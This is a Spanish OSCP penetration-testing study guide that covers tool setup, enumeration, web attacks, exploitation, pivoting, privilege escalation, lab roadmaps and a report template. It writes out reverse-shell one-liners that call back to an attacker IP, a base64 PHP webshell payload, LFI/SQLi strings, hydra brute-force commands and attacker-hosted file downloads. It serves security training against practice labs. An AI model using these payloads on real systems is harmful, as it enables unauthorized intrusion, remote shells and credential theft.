


# Plan de Estudio y Guía de Laboratorios (OSCP / Pentesting Ético)

Este documento es una guía práctica de referencia para preparar la certificación **OSCP (Offensive Security Certified Professional)** o una formación sólida en seguridad ofensiva desde cero utilizando una estación de trabajo basada en **Ubuntu / Debian** (prescindiendo de Kali Linux si se desea), avanzando paso a paso ("subiendo los voltios").

---

## Índice
1. [Aprovisionamiento Completo en Ubuntu / Debian](#1-aprovisionamiento-completo-en-ubuntu--debian)
2. [Plan de Estudio por Niveles: Subiendo los Voltios](#2-plan-de-estudio-por-niveles-subiendo-los-voltios)
   - [Nivel 1: Redes y Fundamentos de Bajo Nivel](#nivel-1-redes-y-fundamentos-de-bajo-nivel-voltaje-bajo-)
   - [Nivel 2: Reconocimiento y Enumeración Sistemática](#nivel-2-reconocimiento-y-enumeración-sistemática-voltaje-medio-)
   - [Nivel 3: Vectores Web y Fuzzing Dirigido](#nivel-3-vectores-web-y-fuzzing-dirigido-voltaje-alto-)
   - [Nivel 4: Explotación, Reverse Shells y Estabilización TTY](#nivel-4-explotación-reverse-shells-y-estabilización-tty-voltaje-muy-alto-)
   - [Nivel 5: Escalada de Privilegios (Linux & Windows)](#nivel-5-escalada-de-privilegios-linux--windows-voltaje-máximo-)
3. [Ruta de Laboratorios Prácticos (Poco a Poco)](#3-ruta-de-laboratorios-prácticos-poco-a-poco)
   - [Fase Inicial: Máquinas Guiadas de Fundamentos](#fase-inicial-máquinas-guiadas-de-fundamentos)
   - [Fase Intermedia: Máquinas Estilo OSCP Clásico](#fase-intermedia-máquinas-estilo-oscp-clásico)
   - [Fase Avanzada: Cadenas Complejas y Active Directory](#fase-avanzada-cadenas-complejas-y-active-directory)
4. [Plantilla de Notas para Cada Laboratorio](#4-plantilla-de-notas-para-cada-laboratorio)

---

## 1. Aprovisionamiento Completo en Ubuntu / Debian

Para transformar una instalación estándar de Ubuntu (20.04 / 22.04 / 24.04 LTS) o Debian en un entorno de pruebas sin la sobrecarga de Kali:

### Paso 1: Actualización e Instalación de Paquetes Base (APT)
```bash
sudo apt update && sudo apt upgrade -y

# Herramientas de red, compilación, reconocimiento y fuerza bruta
sudo apt install -y \
  build-essential git curl wget netcat-traditional socat tcpdump tshark \
  nmap nikto gobuster hydra john seclists smbclient nfs-common \
  dnsutils whois proxychains4 python3 python3-pip python3-venv \
  libssl-dev libffi-dev libldap2-dev libsasl2-dev rlwrap unzip p7zip-full
```

### Paso 2: Configuración de Alternativas y Permisos
En Ubuntu, `nc` apunta por defecto a `openbsd-netcat`, el cual carece del flag `-e` para ejecución interactiva. Lo configuramos a la variante tradicional:
```bash
sudo update-alternatives --set nc /bin/nc.traditional
```

### Paso 3: Suite de Python e Impacket
La suite Impacket es el estándar indiscutible para interacción y explotación de protocolos Windows (SMB, WMI, MSRPC, Kerberos):
```bash
# Instalación global de herramientas Impacket y utilidades
pip install impacket colorama requests --break-system-packages
```

### Paso 4: Configuración de Diccionarios (Wordlists)
SecLists proporciona los mejores diccionarios de la industria:
```bash
sudo mkdir -p /usr/share/wordlists
sudo ln -s /usr/share/seclists /usr/share/wordlists/SecLists 2>/dev/null || true

# Descomprimir rockyou si está comprimido en formato .gz
if [ -f /usr/share/wordlists/rockyou.txt.gz ]; then
    sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
fi
```

### Paso 5: Directorio de Herramientas Auxiliares (`/opt/tools`)
Crea un directorio de trabajo para herramientas independientes:
```bash
sudo mkdir -p /opt/tools && sudo chown -R $USER:$USER /opt/tools
cd /opt/tools

# Scripts de enumeración local esenciales (descarga directa)
curl -sL https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany.exe -O winPEASany.exe
chmod +x linpeas.sh
```

---

## 2. Plan de Estudio por Niveles: Subiendo los Voltios



---

### Nivel 1: Redes y Fundamentos de Bajo Nivel (Voltaje Bajo 🟡)
**Objetivo:** Desarrollar intuición sobre cómo viajan los paquetes, puertos, protocolos y automatización básica en Bash.

1. **El Handshake TCP de 3 vías (SYN, SYN-ACK, ACK):**
   - Cómo difiere un escaneo abierto (`SYN -> SYN-ACK -> RST`), cerrado (`SYN -> RST`) y filtrado (`SYN -> Sin respuesta`).
2. **Netcat (`nc`) tradicional como navaja suiza:**
   - Crear un listener: `nc -lvnp 4444`
   - Conectarse a un puerto remoto: `nc -nv <IP> <PUERTO>`
   - Transferir un archivo sin cifrar:
     - Receptor: `nc -lvnp 9001 > recibido.txt`
     - Emisor: `nc -nv <IP_RECEPTOR> 9001 < enviar.txt`
3. **Análisis de tráfico con `tcpdump`:**
   - Inspeccionar cabeceras HTTP en texto claro:
     ```bash
     sudo tcpdump -i any -A -nn -s 0 'tcp port 80'
     ```
   - Filtrar peticiones ICMP (Ping):
     ```bash
     sudo tcpdump -i any icmp -nn
     ```
4. **One-Liners indispensables en Bash:**
   - Filtrar puertos abiertos de una salida Nmap en formato Grepable (`.gnmap`):
     ```bash
     grep -oP '\d{1,5}/open' scan.gnmap | cut -d '/' -f 1 | paste -sd ',' -
     ```

---

### Nivel 2: Reconocimiento y Enumeración Sistemática (Voltaje Medio 🟠)
**Objetivo:** Evitar saltarse vectores. Los fallos en auditorías y en el OSCP provienen en un 80% de una enumeración deficiente.

1. **Metodología de Escaneo en 2 Fases con Nmap:**
   - **Fase A (Velocidad):** Escaneo de todos los 65535 puertos TCP (usar `-p 1-65535` explícito para evitar errores de sintaxis en Nmap):
     ```bash
     nmap -n -Pn -sT -p 1-65535 --min-rate 1000 -T4 <IP> -oA nmap_all_ports
     ```
   - **Fase B (Profundidad):** Detección de versión y scripts seguros sobre puertos descubiertos:
     ```bash
     nmap -n -Pn -sC -sV -p <PUERTOS_DETECTADOS> <IP> -oA nmap_scripts
     ```
2. **Enumeración de Servicios Canónicos:**
   - **SMB (139/445):**
     - Listar recursos compartidos anónimos: `smbclient -L //<IP>/ -N`
     - Conectar a un recurso: `smbclient //<IP>/recurso -N`
     - Inspección global con `enum4linux -a <IP>`
   - **NFS (111/2049):**
     - Ver exports disponibles: `showmount -e <IP>`
     - Montaje local: `sudo mount -t nfs <IP>:/compartido /mnt -o nolock`
   - **SNMP (161/UDP):**
     - Brute-force a comunidades: `onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt <IP>`
     - Recorrido del árbol: `snmpwalk -c public -v 2c <IP>` o `snmp-check <IP> -c public`
   - **DNS (53):**
     - Transferencia de zona: `dig axfr @<IP> <DOMINIO>`

3. **Ataques de Fuerza Bruta Dirigida y Password Spraying (Metasploitable 2 & 3):**
   *La fuerza bruta en servicios de red es un vector canónico del OSCP cuando no existen vulnerabilidades de desbordamiento de búfer o RCE directo:*
   - **SSH (22/tcp - Metasploitable 2):**
     ```bash
     hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt 192.168.1.154 ssh -t 4
     ```
   - **FTP (21/tcp - Metasploitable 2 / Windows):**
     ```bash
     hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.154 ftp -s 21 -V
     ```
   - **Bases de Datos (MySQL 3306 / PostgreSQL 5432):**
     ```bash
     hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.154 mysql
     ```
   - **SMB y RDP (445 y 3389 - Metasploitable 3 Windows):**
     ```bash
     # Fuerza bruta a SMB con Hydra:
     hydra -l vagrant -P wordlist.txt 192.168.1.155 smb
     # Password spraying con CrackMapExec:
     crackmapexec smb 192.168.1.155 -u users.txt -p 'Vagrant2008!' --continue-on-success
     # Fuerza bruta a RDP:
     hydra -l vagrant -P wordlist.txt rdp://192.168.1.155
     ```
   - **Formularios Web HTTP (DVWA & Tomcat Manager 8180):**
     ```bash
     # Tomcat Manager (Autenticación HTTP Basic):
     hydra -L users.txt -P passwords.txt 192.168.1.154 http-get /manager/html
     # DVWA (Formulario HTTP GET con cookie de sesión):
     hydra -l admin -P passwords.txt 192.168.1.147 http-get "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: PHPSESSID=xxx; security=low:F=incorrect"
     ```

---

### Nivel 3: Vectores Web y Fuzzing Dirigido (Voltaje Alto 🔴)
**Objetivo:** Identificar fallos web lógicos y de configuración sin depender de escáneres masivos que saturan la red.

1. **Fuzzing de Directorios y Archivos:**
   - Gobuster con extensiones dirigidas al stack tecnológico:
     ```bash
     gobuster dir -u http://<IP>/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html,bak,old -t 25 -o gobuster.txt
     ```
2. **Inyección de Comandos (Command Injection):**
   - Identificar parámetros que ejecutan utilidades del sistema (`ping`, `nslookup`, `traceroute`).
   - Caracteres delimitadores: `;`, `&&`, `|`, `$(...)`, `` `...` ``.
3. **Inclusión de Archivos (LFI / RFI / Directory Traversal):**
   - Lectura de archivos locales: `../../../../etc/passwd` o `..\..\windows\win.ini`.
   - Conversión de LFI a ejecución de comandos (RCE):
     - Mediante filtros PHP: `php://filter/convert.base64-encode/resource=index.php`
     - Vía wrappers de datos: `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+`
     - Log Poisoning (Apache `access.log` o SSH `auth.log`).
4. **Inyección SQL Manual (SQLi):**
   - Detección de columnas con `ORDER BY 1, 2, 3...`
   - Extracción de versión y esquema con `UNION SELECT 1, @@version, database() -- -`
   - Inyección a ciegas (*blind*) con retardos temporales: `' AND SLEEP(5) -- -` (referencia: [SQLiWithWFUZZ.txt](file:///c:/Users/Diego%20Romero/Documents/oscpRepo/CheetSheets/Database/SQLiWithWFUZZ.txt)).

---

### Nivel 4: Explotación, Reverse Shells y Estabilización TTY (Voltaje Muy Alto ⚡)
**Objetivo:** Acceso interactivo persistente y control total del entorno de terminal.

1. **Generación de Payloads de Reverse Shell:**
   - **Bash:** `bash -i >& /dev/tcp/<MI_IP>/4444 0>&1`
   - **Python 3:**
     ```python
     python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<MI_IP>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
     ```
2. **Estabilización a Full TTY (Evitar caídas con Ctrl+C):**
   Una vez dentro de la shell inversa en Netcat:
   ```bash
   # 1. En la víctima:
   python3 -c 'import pty; pty.spawn("/bin/bash")'

   # 2. Pulsar Ctrl + Z (se suspende el proceso localmente)

   # 3. En tu máquina atacante (Ubuntu):
   stty raw -echo; fg

   # 4. En la víctima recuperada:
   reset
   export TERM=xterm
   export SHELL=/bin/bash
   stty rows 38 columns 136  # Consulta tus dimensiones con: stty size
   ```
3. **Servidor y Transferencia de Archivos:**
   - Servidor local en atacante: `python3 -m http.server 80`
   - Descarga en Linux objetivo: `wget http://<MI_IP>/linpeas.sh -O /tmp/linpeas.sh`
   - Descarga en Windows objetivo:
     ```powershell
     certutil -urlcache -f http://<MI_IP>/winPEASany.exe winPEAS.exe
     # o bien:
     Invoke-WebRequest -Uri http://<MI_IP>/tool.exe -OutFile tool.exe
     ```

4. **Pivoting, Túneles y Redirección de Puertos (Port Forwarding):**
   *El pivoting es el arte de utilizar una máquina previamente comprometida con doble interfaz de red (multihomed) como trampolín para auditar y atacar segmentos de red internos inaccesibles desde el exterior:*
   
   - **Túneles SSH y Proxies SOCKS5 (Nativo):**
     ```bash
     # Local Port Forwarding: Traer un puerto interno (ej. MySQL 3306) a localhost:
     ssh -L 3306:10.10.10.5:3306 usuario@<IP_PIVOTE>

     # Dynamic Port Forwarding (Proxy SOCKS5 completo en puerto 1080):
     ssh -D 1080 -N -f usuario@<IP_PIVOTE>

     # Enrutamiento de herramientas a través del túnel con Proxychains:
     # (Configurar 'socks5 127.0.0.1 1080' en /etc/proxychains4.conf)
     proxychains4 nmap -sT -Pn -p 22,80,445 10.10.10.5
     ```

   - **Chisel (Túneles HTTP / WebSocket a través de Firewalls Restrictivos):**
     *Ideal cuando la máquina comprometida no tiene servidor SSH o el firewall bloquea tráfico saliente salvo por el puerto 80/443:*
     ```bash
     # En tu máquina atacante (Servidor Chisel a la escucha):
     ./chisel server -p 8080 --reverse

     # En la máquina víctima comprometida (Cliente Chisel hacia el atacante):
     ./chisel client <MI_IP>:8080 R:socks
     # Crea un SOCKS5 inverso en localhost:1080 para usar con proxychains.
     ```

   - **Ligolo-ng (El Estándar Moderno de Pivoting por Interfaz TUN):**
     *A diferencia de SOCKS5/Proxychains (que sufre de latencia y no soporta escaneos SYN ni paquetes UDP), Ligolo-ng crea una interfaz de red virtual real (TUN) a nivel de kernel:*
     ```bash
     # 1. En atacante: crear interfaz TUN y arrancar proxy
     sudo ip tuntap add user $USER mode tun ligolo
     sudo ip link set ligolo up
     ./proxy -autocert -laddr 0.0.0.0:11601

     # 2. En víctima: conectar el agente hacia tu proxy
     ./agent -connect <MI_IP>:11601 -ignore-cert

     # 3. En atacante: añadir la ruta del segmento interno al kernel Linux
     sudo ip route add 10.10.10.0/24 dev ligolo
     # ¡Ahora puedes hacer ping y nmap directo a 10.10.10.X sin proxychains!
     ```

   - **Redirección de Puertos con Socat (Port Relay):**
     ```bash
     # Redirigir el puerto 8080 de la máquina pivote hacia una web interna:
     socat TCP-LISTEN:8080,fork,reuseaddr TCP:10.10.10.5:80
     ```

---

### Nivel 5: Escalada de Privilegios (Linux & Windows) (Voltaje Máximo 🔥)
**Objetivo:** Elevar privilegios desde un usuario no privilegiado (`www-data`, `localuser`) hasta el control total del sistema operativo (`root` o `NT AUTHORITY\SYSTEM`).

1. **Linux Privilege Escalation:**
   - **Sudo sin contraseña:** `sudo -l` (revisar binarios en [GTFOBins](https://gtfobins.github.io)).
   - **Binarios con bit SUID activo:**
     ```bash
     find / -perm -u=s -type f 2>/dev/null
     ```
   - **Tareas programadas (Cron Jobs):** Comprobar `/etc/crontab`, `/etc/cron.*` o scripts periódicos modificables por nuestro usuario.
   - **Inspección de servicios internos:** Puertos a la escucha en `127.0.0.1` (`ss -tulpn`).
2. **Windows Privilege Escalation:**
   - **Privilegios de Token:** Comprobar con `whoami /priv`. Si figura `SeImpersonatePrivilege` o `SeAssignPrimaryTokenPrivilege`, evaluar herramientas de suplantación (PrintSpoofer, GodPotato).
   - **Servicios con rutas sin entrecomillar (Unquoted Service Paths):**
     ```cmd
     wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
     ```
   - **Permisos débiles en binarios de servicio:** Consulta con `icacls "C:\Ruta\Al\Servicio.exe"` (referencia: [iCacls_Service_Check.bat](file:///c:/Users/Diego%20Romero/Documents/oscpRepo/Priv%20Esc%20Checks/Windows/iCacls_Service_Check.bat)).
   - **Credenciales cacheadas y claves en registro:**
     ```cmd
     cmdkey /list
     reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
     ```

---

## 3. Ruta de Laboratorios Prácticos (Poco a Poco)

Se divide el entrenamiento en dos fases estratégicas antes de presentarse al examen: la **validación exhaustiva del arsenal propio del repositorio** (para dominar nuestras herramientas) y el **simulacro intensivo de cajas negras** (para evaluar autonomía y velocidad bajo presión de examen).

---

### Fase 1: Validación y Banco de Pruebas del Arsenal Propio (`oscpRepo`)
*Objetivo: Poner a prueba, validar compatibilidad (Python 3) y dominar las herramientas del repositorio antes de ir a ciegas a máquinas de examen.*

| Módulo / Laboratorio | Herramientas del Repo a Probar | Objetivo de Evaluación | Entorno de Prueba |
| :--- | :--- | :--- | :--- |
| **Lab A: Automatizadores de Reconocimiento** | `scripts/recon_enum3/` (`smbrecon.py`, `webrecon.py`, `msrpcrecon.py`, `nfsrecon.py`) | Automatización de escaneos dirigidos por puerto sin saturar la red ni generar ruido innecesario. | Metasploitable 2 & Metasploitable 3 Windows |
| **Lab B: Arsenal de Post-Explotación Linux** | `Priv Esc Checks/Linux/linuxprivchecker.py` | Comparativa directa de detección frente a `linpeas.sh` (SUID, sudoers, tareas cron y servicios locales). | Metasploitable 2 (`192.168.1.154`) |
| **Lab C: Arsenal de Post-Explotación Windows** | `Priv Esc Checks/Windows/SecWiki-Windows-Exploit-Suggester.py`, `iCacls_Service_Check.bat`, `Local Info Enum/Windows/HostEnum.py` | Auditoría de parches faltantes (cruce con `systeminfo`), permisos ACL de servicios débiles y volcado de tokens. | Metasploitable 3 Windows (`192.168.1.155`) |

---

### Fase 2: Intensivo de Pruebas de Dominio (Simulacros de Examen OSCP)
*Objetivo: Resolver máquinas 100% a ciegas (Black Box) con cronómetro, evaluando no solo el conocimiento sino la velocidad, metodología y generación de informes de nivel profesional.*

#### Bloque 1: Máquinas Locales Gratuitas (VulnHub - Práctica Inicial Ciega)
1. **Kioptrix Level 1 (v1.0):** Escaneo sin pistas, enumeración profunda de Samba/Apache y escalada de privilegios local.
2. **Kioptrix Level 1.1 (v1.2):** Interacción web con inyección SQL para bypass de autenticación y abuso de comandos administrativos.
3. **Mr-Robot (VulnHub):** Enumeración web estilo CTF, fuerza bruta dirigida a WordPress, descifrado de credenciales y escalada SUID.

#### Bloque 2: Máquinas Oficiales Estilo Examen (OffSec Proving Grounds / HackTheBox)
*Seleccionadas siguiendo la lista de referencia canónica de TJNull para el OSCP moderno:*

| Máquina | Plataforma | SO | Dificultad | Enfoque Evaluativo |
| :--- | :--- | :--- | :--- | :--- |
| **Lame** | Hack The Box / PG | Linux | Fácil | Ataque a demonios de red heredados y shells directas. |
| **Blue** | Hack The Box / PG | Windows | Fácil | Explotación de arquitectura de kernel SMBv1 (MS17-010). |
| **Devel** | Hack The Box / PG | Windows | Fácil-Media | Cadena: FTP anónimo -> IIS -> Webshell ASPX -> Potato Privesc. |
| **Shocker** | Hack The Box / PG | Linux | Fácil-Media | Detección de directorios CGI y ejecución remota vía Shellshock. |
| **Bashed** | Hack The Box / PG | Linux | Media | Shell inicial web, abuso de sudoers y manipulación de tareas cron. |
| **Optimum** | Hack The Box / PG | Windows | Media | Explotación de servicio web HTTP File Server (HFS) y bypass de token UAC. |

#### Bloque 3: Simulacro Oficial de 24 Horas (The Real Challenge)
* **Condiciones de Simulación:**
  1. Cronómetro de 24 horas ininterrumpidas.
  2. Prohibido el uso de herramientas automatizadas no permitidas por OffSec (Metasploit limitado a un único uso o prescindiendo de él).
  3. Estructuración en tiempo real del informe formal con evidencias de flags `local.txt` y `proof.txt` con comandos `whoami && ip a / ipconfig`.
  4. Redacción del Reporte Ejecutivo de Vulnerabilidades en formato Word antes de las 24 horas posteriores.

---

## 4. Plantilla de Notas para Cada Laboratorio

Guarda un archivo de notas Markdown por cada máquina que resuelvas (por ejemplo, en `CherryTrees/` o un bloc local). La estructura recomendada por OffSec es:

```markdown
# Informe de Máquina: [NOMBRE_DE_MÁQUINA] - [DIRECCIÓN_IP]

## 1. Resumen Ejecutivo
- **Sistema Operativo:** Linux / Windows
- **Nivel de Dificultad:** Fácil / Media / Difícil
- **Vector de Acceso Inicial:** [ej. Vulnerabilidad de subida de archivos en WordPress]
- **Vector de Escalada:** [ej. Binario SUID `/usr/bin/find`]

## 2. Reconocimiento y Escaneo
### Puertos Abiertos (Nmap)
```text
[Pegar salida del escaneo rápido y detallado de Nmap]
```

## 3. Enumeración de Servicios
- **Puerto 80 (HTTP):**
  - Tecnologías detectadas: [Apache 2.4, PHP 7.4...]
  - Resultados Gobuster: [Rutas /admin, /uploads...]
- **Puerto 445 (SMB):**
  - Recursos compartidos encontrados: [/public, /backups...]

## 4. Explotación (Acceso Inicial)
- **Vulnerabilidad identificada:** [Explicación del fallo]
- **Comando o Payload utilizado:**
  ```bash
  [Comando exacto de explotación]
  ```
- **Evidencia de acceso (Proof of Concept):**
  ```bash
  whoami && id # o whoami /all
  ip a # o ipconfig
  cat /home/user/local.txt # o type C:\Users\user\desktop\local.txt
  ```

## 5. Escalada de Privilegios
- **Método de Enumeración Interna:** [Salida de LinPEAS / Comprobaciones manuales]
- **Fallo de configuración detectado:** [Permiso sudo, token, cron job, etc.]
- **Comandos de Elevación:**
  ```bash
  [Comandos para obtener root/SYSTEM]
  ```
- **Evidencia Final:**
  ```bash
  whoami
  cat /root/proof.txt # o type C:\Users\Administrator\desktop\proof.txt
  ```
```

---

## 5. Arquitectura de Investigación de Maestría: Escaneo Perimetral, Machine Learning y Agentes de Ciberseguridad con Ollama



### ¿Por qué dominar la ofensiva es el cimiento de la Inteligencia Artificial en Seguridad?
Un modelo de Machine Learning o un Agente LLM en ciberseguridad es tan bueno como la **calidad de los datos de entrenamiento (Ground Truth)**. No es posible diseñar modelos de detección de anomalías ni evaluar la telemetría de un servidor si no se comprende con exactitud:
1. **La firma real de un escaneo:** Cómo se diferencian en los logs de red y en Censys un escaneo TCP SYN furtivo de un barrido agresivo de Nmap o una auditoría con Masscan.
2. **La huella de una Reverse Shell y Pivoting:** El tráfico generado por una conexión interactiva Netcat, un túnel cifrado de Chisel o una interfaz TUN de Ligolo-ng a nivel de sockets del sistema (`ss -tupan`).
3. **Eventos de Escalada y Tokens:** Cómo se reflejan en los registros de auditoría de Linux (`auditd`) o de Windows (`EventID 4688` - Creación de procesos con privilegios elevados) el abuso de un binario SUID o la activación de `SeImpersonatePrivilege`.

### Rol del Agente LLM Local con Ollama:
* **Privacidad Estricta de Telemetría:** La información de servidores, puertos internos, vulnerabilidades y registros de auditoría corporativos **nunca debe ser transmitida a nubes públicas**. Ollama garantiza inferencia 100% local en hardware propio.
* **Triage de Casos Borde (Outliers):** Los algoritmos clásicos de ML (como Isolation Forests) marcan eventos como anómalos pero carecen de contexto semántico. El agente de Ollama recibe el log exacto, el banner del servicio y el historial temporal para dictaminar si se trata de un falso positivo o de un intento activo de intrusión.
* **Respuesta Asistida y Generación de Reglas:** Sugerencia automática de reglas de firewall (`iptables`, `Windows Defender Firewall`), políticas de hardening o firmas Sigma/Suricata en tiempo real.
